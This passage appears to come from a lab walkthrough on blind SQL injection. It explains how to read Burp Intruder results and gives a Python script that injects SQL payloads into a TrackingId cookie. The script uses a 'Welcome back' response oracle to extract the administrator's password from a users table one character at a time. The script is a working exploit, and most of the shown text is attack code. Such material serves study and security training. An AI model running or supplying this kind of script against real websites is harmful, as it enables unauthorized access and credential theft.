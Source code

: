     * Start the attack.
    * 📌 **Observe results:** The results table will show combinations of `I` and `C`. Sort by the presence of "Welcome back". For each position `I`, there will be exactly one `C` that yielded a "Welcome back" response. Record these characters in order to reconstruct the password.

4.  **Alternatively, using Python (More automated):**
    ```python
    import requests

    # (Assume url, base_cookie, and password_length are defined from previous step)

    characters = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+-=[]{}|;':\",.<>/?`~" # Comprehensive character set

    def get_data(length):
        print("Dumping Data... Please wait.")
        dumped_password = ""
        for i in range(1, length + 1): # Iterate through each character position
            for char in characters:
                # Payload for guessing each character
                # Note: Substring index starts from 1 in SQL, not 0 like Python
                payload = f"' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1) = '{char}'--"
                
                # Construct the cookie
                cookie = {'TrackingId': base_cookie.split(';')[0].split('=')[1] + payload, 
                          'session': base_cookie.split(';')[1].split('=')[1]}
                
                r = requests.get(url, cookies=cookie)
                
                if "Welcome back" in r.text:
                    dumped_password += char
                    print(f"\rPassword: {dumped_password}", end="") # Print progressively
                    break # Move to next character position
        print(f"\nGot it! Password: {dumped_password}")
        return dumped_password

    # Assuming password_length has been determined from get_length()
    # password_length = get_length()
    # if password_length:
    #     admin_password = get_data(password_length)
    #     print(f"Final Administrator Password: {admin_password}")
    #     # You would then manually log in with this password
    ```
